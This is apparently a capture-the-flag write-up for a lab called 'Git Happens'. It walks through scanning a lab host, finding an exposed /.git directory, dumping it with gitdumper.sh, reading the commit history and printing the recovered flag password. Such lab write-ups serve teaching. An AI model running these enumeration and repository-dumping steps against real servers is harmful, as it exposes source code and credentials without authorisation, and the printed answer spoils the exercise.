

# Git Happens

$IP = 10.10.144.227

## Nmap scan:
Port: 80 open

## Gobuster scan:

```bash
$ gobuster -u "http://10.10.144.227/" -w directory-list-2.3-small.txt

/css (Status: 301)
/.git (Status: 301)
Progress: 2572 / 87666 (2.93%)
```

Since /.git directory is publicly visible, we can pull down the directory with the following repository:
https://github.com/internetwache/GitTools

### Using the dumper script:

```bash
cd GitTools/Dumper/
bash gitdumper.sh http://10.10.144.227/.git gitdir/
```
### After downloading the directory contents

```bash
cd gitdir
git log | grep "commit" | cut -d " " -f2
```

### Output:
```bash
d0b3578a628889f38c0affb1b75457146a4678e5
77aab78e2624ec9400f9ed3f43a6f0c942eeb82d
2eb93ac3534155069a8ef59cb25b9c1971d5d199
d6df4000639981d032f628af2b4d03b8eff31213
d954a99b96ff11c37a558a5d93ce52d0f3702a7d
bc8054d9d95854d278359a432b6d97c27e24061d
e56eaa8e29b589976f33d76bc58a0c4dfb9315b1
395e087334d613d5e423cdf8f7be27196a360459
2f423697bf81fe5956684f66fb6fc6596a1903cc

```
### From the above output we checkout the commit history in the repository:
```bash
git show 395e087334d613d5e423cdf8f7be27196a360459
```
### Output:
<>

### Q. Find the Super Secret Password
```
Ans: Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!
```
